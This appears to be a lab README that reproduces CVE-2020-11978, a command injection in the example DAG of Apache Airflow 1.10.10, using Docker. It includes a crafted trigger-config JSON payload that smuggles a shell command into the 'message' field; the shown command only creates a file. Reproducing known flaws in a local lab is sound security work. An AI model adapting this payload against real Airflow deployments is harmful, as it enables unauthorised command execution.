

# Airflow 1.10.10 CVE-2020-11978 - RCE/command execution in example dag

[中文版本(Chinese version)](./README.zh-cn.md)

Airflow is an open source, distributed task scheduling framework. It assembles a workflow with subordinate and subordinate dependencies into a directed acyclic graph. Airflow configuration uses CeleryExecutor for task execution, so the command execution result needs to be viewed in the CeleryWorker container.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.

References:

- https://docs.celeryproject.org/en/stable/userguide/configuration.html
- https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk
- https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers
- https://www.jianshu.com/p/52552c075bc0
- https://www.runoob.com/w3cnote/python-redis-intro.html
- https://blog.csdn.net/SKI_12/article/details/85015803

## Vulnerability Environment

Execute the following commands to start airflow 1.10.10:

```bash
#Initialize the database
docker-compose run airflow-init initdb

#Start service
docker-compose up -d
```

## Exploit

Visit `http://your-ip:8080` to see the airflow management terminal, and turn on the `example_trigger_target_dag` flag:



Click the "triger" button on the right, then input the configuration JSON with the crafted payload `{"message":"'\";touch /tmp/airflow_dag_success;#"}`:


Wait a few seconds to see the execution of "success":


Go to the CeleryWorker container to see the result, `touch /tmp/airflow_dag_success` has been successfully executed:

```
docker-compose exec airflow-worker ls -l /tmp
```


